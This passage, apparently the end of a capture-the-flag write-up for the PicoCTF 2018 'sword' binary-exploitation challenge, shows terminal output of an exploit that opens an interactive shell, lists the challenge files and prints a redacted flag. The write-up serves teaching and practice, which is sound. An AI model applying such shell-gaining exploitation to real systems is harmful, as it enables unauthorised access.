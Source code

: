 ```
5. Harden a sword.
6. Equip a sword.
7. Quit.
6
What's the index of the sword?
0

[*] Switching to interactive mode
$ ls
flag.txt
libc.so.6
sword
sword.c
xinet_startup.sh
$ cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}

**Boom**! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.
